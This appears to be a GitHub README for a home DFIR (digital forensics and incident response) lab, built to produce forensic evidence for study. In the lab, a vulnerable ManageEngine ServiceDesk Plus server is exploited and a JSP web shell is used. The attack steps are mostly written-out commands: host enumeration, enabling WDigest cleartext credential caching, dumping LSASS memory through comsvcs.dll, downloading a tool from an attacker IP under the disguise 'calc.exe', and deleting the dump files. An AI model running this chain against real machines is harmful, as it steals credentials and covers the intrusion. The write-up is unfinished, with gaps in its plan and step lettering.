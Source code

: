# Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
- Part 1:
  a. Applying The Exploit:
  ![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)
  
  ![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

  b. Visiting wbsh.jsp

  ![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

  c. Enum
      1. `whoami`
      2. `ipconfig /all`
      3. `systeminfo`
      4. `arp -a`
      5. `tasklist`
          lsass.exe                      652 Services                   0     16,848 K
      6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
  e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
  f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
  g. Download C:\Windows\Temp\logctl.zip
  h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
  k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
  l. Delete them
     `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`
  
